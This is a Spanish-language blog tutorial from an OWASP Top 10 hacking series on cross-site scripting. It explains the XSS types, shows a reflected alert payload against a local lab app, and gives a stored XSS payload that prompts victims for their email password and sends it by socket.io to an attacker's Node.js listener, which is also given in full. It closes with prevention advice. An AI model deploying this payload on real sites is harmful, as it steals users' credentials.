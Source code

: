```yaml
---
layout: post
title:  "Como realizar una inyeccion XSS y obtener credenciales"
description: "Explotando los 10 riesgos mas criticos segun el OWASP VI"
date:   2019-07-15
image:  "img/OwaspTopTen.jpg"
tags:   [Inyeccion XSS, Pentesting WEB, Hacking NodeJS]
---
```


Hello Engineers!  
En el dia de hoy, vamos a aprender acerca de una debilidad muy usual y critica en las aplicaciones web.  

**A7-Cross-site Scripting**  
XSS es el acrónimo usado para “Cross Site Scripting”.   
Es un tipo de vulnerabilidad de los aplicativos web, el cual puede permitir a un atacante inyectar código JavaScript u otro lenguaje similar sobre dicha página web.  
Las fallas que permiten que estos ataques tengan éxito están bastante extendidas y ocurren en cualquier lugar en que una aplicación web utiliza la entrada de un usuario.   

Los daños de un ataque XSS pueden ser los siguientes:  

  - Robar de sesion.  
  - Redireccionar a sitios de phishing, o a páginas falsas.  
  - Descarga de software malicioso.  
  - Keyloggers.  
  - y otros tipos de ataques del lado cliente.  

## Conceptos Basicos  
Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:  

**XSS Reflejado**  
Es el más común de los tipos de XSS, sucede cuando una aplicación o API utiliza datos sin validar, suministrados por un usuario y codificados como parte del HTML o Javascript de salida. Un ataque exitoso permite al atacante ejecutar comandos arbitrarios (HTML y Javascript) en el navegador de la víctima.   
Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, publicidad maliciosa, entre otros.   

**XSS Almacenado**  
Si el código que hemos insertado se queda almacenado en el servidor, por ejemplo formando parte de una contribución en un foro, el ataque se dice que es persistente o almacenado.    
Un ataque XSS persistente puede tener lugar en el caché de una aplicación web o en una base de datos conectada de dichos sitios web. Los ataques persistentes siempre están en el lado del servidor y tienen un gran riesgo potencial.  

**XSS Basados en DOM:**  
Este tipo de XSS es en el que la carga útil de ataque se ejecuta como resultado de la modificación del DOM "entorno" en el navegador de la víctima.    

## Explotando las vulnerabilidades mas criticas en aplicaciones WEB.  
## XSS Reflejado  
**Escenario de la prueba #1:**   
Vamos aprender a explotar esta vulnerabilidad por medio de un formulario que realiza busqueda sobre registros previamente ingresados.  

Inicialmente vamos a dirigirnos al apartado para realizar la prueba de inyeccion de XSS reflejada.  
**http://172.17.0.2:9090/app/products**  


<figure>
  <img src="{{site.baseurl}}/img/xss.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss.png" title="Formulario con un campo de búsqueda">Formulario con un campo de búsqueda</a>.
  </figcaption>
</figure>

El aplicativo web anterior se compone de una tabla de registros y un campo para realizar consultas o busqueda sobre dicha tabla.  
Vamos a realizar una inyeccion de codigo javascript usando este campo.  
La carga util "maliciosa" que usaremos es la siguiente:  

{% highlight html %}
<script>alert("Hacked By Gerh")</script>  
{% endhighlight %}    

A continuacion, doy a mostrar el paso a paso para encontrar un formulario vulnerable a inyecciones XSS.  

<figure>
  <img src="{{site.baseurl}}/img/xss-reflejected.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-reflejected.gif" title="Analizando un campo de busqueda vulnerable a XSS">Analizando un campo de busqueda vulnerable a XSS</a>.
  </figcaption>
</figure>

## XSS Almacenado  
**Escenario de la prueba #2:**   
En el escenario anterior aprendimos a realizar una inyeccion XSS reflejada, la cual como se podia apreciar no era persistente debido a que las consultas realizadas no es un dato que se este almacenando en una base de datos.  
El formulario anterior expuesto permite el ingreso de nuevos productos, los cuales son registros que deben estar almacenados en una base de datos.   


<figure>
  <img src="{{site.baseurl}}/img/xss-stored.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.png" title="Analizando posibles registros de la base de datos">Analizando posibles registros de la base de datos</a>.
  </figcaption>
</figure>

En vez de guardar algun registro con palabras normales, vamos a ingresar el siguiente payload.  
En resumen, por medio de la libreria **Socket.io**, vamos a enviarnos las credenciales que sean solicitadas a la victima.

{% highlight html %} 
<!-- Importamos la libreria de socket.io -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/socket.io/2.2.0/socket.io.dev.js" integrity="sha256-i2Orhi397HWPn93rsCUTW8HBoso65vY/VNTllm9Kuqo=" crossorigin="anonymous"></script> 

<script>
  /* Desplegamos una entrada de texto y solicitamos un dato confidencial para almacenarlo en la variable PassVictim */ 
  var PassVictim = prompt("Por favor ingresa tu contraseña del correo para continuar!", "******");
  alert("Gracias por tu colaboracion")

  /* Le indicamos a socker.io a donde nos vamos a conectar */ 
  var socket = io.connect('http://localhost:8080');
  /* Emitimos un mensaje hacia el servidor concatenando la variable PassVictim, la cual tiene el dato confidencial. */
  socket.emit('message', 'Account Hacked!!  \n' + PassVictim);
</script>  
{% endhighlight %}    

En nuestra maquina atacante, vamos a crear un pequeño servidor con nodejs y codificamos lo siguiente:  

{% highlight js %}  
/* Importando la libreria HTTP */ 
var http = require('http');
/* Importando la libreria FS */
var fs = require('fs');
/* Creamos nuestro servidor haciendo uso de la libreria importada HTTP */
var server = http.createServer(function(req, res) {
    fs.readFile('./index.html', 'utf-8', function(error, content) {
        res.writeHead(200, {"Content-Type": "text/html"});
        res.end(content);
    });
});

/* Por medio de socket.io, dejamos en espera el socket llamado message el cual nos ayudara a recibir las credenciales */
var io = require('socket.io').listen(server);
io.sockets.on('connection', function (socket) {
    socket.emit('message', 'You are connected!');
    socket.on('message', function (message) {
    	/* Luego de recibir un socket, vamos a imprimir el resultado en pantalla */
        console.log(message);
    }); 
});

server.listen(8080);
{% endhighlight %}    

Listo, hemos logrado crear un script para realizar phising aprovechandonos de una inyeccion XSS almacenada.  
A continuacion, vamos a ver el comportamiento de lo previamente construido.  

<figure>
  <img src="{{site.baseurl}}/img/xss-stored.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.gif" title="Realizando un phising con una inyeccion XSS almacenada">Realizando un phising con una inyeccion XSS almacenada</a>.
  </figcaption>
</figure>

Incluso si cerramos la sesion y salimos de la aplicacion, Cuando entremos nuevamente se ejecutara el script debido a que esta almacenado en una base de datos.  

## Recomendaciones  
Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.  
  - Utilizar frameworks seguros que, por diseño, automáticamente codifican el contenido para prevenir XSS, como en Ruby 3.0 o React JS.  
  - Codificar los datos de requerimientos HTTP no confiables en los campos de salida HTML (cuerpo, atributos, JavaScript, CSS, o URL) resuelve los XSS Reflejado y XSS Almacenado.     
  - Habilitar una Política de Seguridad de Contenido (CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales, bibliotecas vulnerables en fuentes conocidas almacenadas en Redes de Distribución de Contenidos (CDN) o localmente.  

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciones-Incorrectas-de-Seguridad-OWAPS-V/)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  


 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)
